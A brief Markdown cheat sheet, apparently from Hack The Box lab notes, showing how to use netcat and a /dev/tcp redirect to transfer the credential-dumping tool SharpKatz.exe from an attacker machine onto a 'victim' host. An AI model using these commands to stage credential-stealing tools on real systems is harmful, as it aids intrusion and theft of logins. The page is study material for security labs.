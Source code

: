 ```yaml
---
title:  "Netcat"
tags:
  - hacking
  - htb
programming-languagues:
created: 2022-07-11
---
```

# Netcat
---
Networking utility for reading from and writing to network connections using TCP or UDP.

## Listening
```bash
victim@target:~$ nc -l -p 8080 > SharpKatz.exe
```

```bash
victim@target:~$ cat < /dev/tcp/192.168.0.200/8080 > SharpKatz.exe
```

## Sending
```bash
me@hanato:~$ nc -q 0 192.168.0.200 8080 < SharpKatz.exe
```